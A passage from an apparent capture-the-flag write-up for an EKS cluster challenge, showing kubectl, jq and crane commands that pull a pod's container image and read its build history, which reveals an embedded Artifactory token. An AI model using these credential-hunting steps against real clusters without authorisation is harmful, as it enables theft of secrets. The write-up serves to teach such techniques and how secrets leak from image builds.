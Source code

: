 ```bash
                    {
                        "mountPath": "/var/run/secrets/kubernetes.io/serviceaccount",
                        "name": "kube-api-access-mmvjj",
                        "readOnly": true
                    }
                ]
            }
        ],
        [...]
    }
}
```

There's an image name referenced in this, that can be more directly accessed with `| jq -r ‘.spec.containers[].image’`:

```bash
kubectl get pod accounting-pod-876647f8 -o json | jq -r '.spec.containers[].image'
688655246681.dkr.ecr.us-west-1.amazonaws.com/central_repo-aaf4a7c@sha256:7486d05d33ecb1c6e1c796d59f63a336cfa8f54a3cbc5abf162f533508dd8b01
```

As before, the image can be fetched using Crane to review:

```bash
root@wiz-eks-challenge:~# crane pull 688655246681.dkr.ecr.us-west-1.amazonaws.com/central_repo-aaf4a7c@sha256:7486d05d33ecb1c6e1c796d59f63a336cfa8f54a3cbc5abf162f533508dd8b01 test.tar
```

However, the files of these images don’t yield a flag.

Another aspect of ECR review I learned about while investigating this was reviewing configuration variables for the image provided ([crane config](https://github.com/google/go-containerregistry/blob/main/cmd/crane/doc/crane_config.md)). In this case, `crane config` revealed a set of variables in ‘`.history[].created_by`’ :

```bash
root@wiz-eks-challenge:~# crane config 688655246681.dkr.ecr.us-west-1.amazonaws.com/central_repo-aaf4a7c@sha256:7486d05d33ecb1c6e1c796d59f63a336cfa8f54a3cbc5abf162f533508dd8b01 | jq .
{
  "architecture": "amd64",
  "config": {
   [...]
  },
  "created": "2023-11-01T13:32:07.782534085Z",
  "history": [
    [...]
    },
    {
      "created": "2023-11-01T13:32:07.782534085Z",
      "created_by": "RUN sh -c #ARTIFACTORY_USERNAME=challenge@eksclustergames.com ARTIFACTORY_TOKEN=wiz_eks_challenge{FLAG-CONTENTS} ARTIFACTORY_REPO=base_repo /bin/sh -c pip install setuptools --index-url intrepo.eksclustergames.com # buildkit # buildkit",
      "comment": "buildkit.dockerfile.v0"
    },
    [...]
    ]
  }
}
```
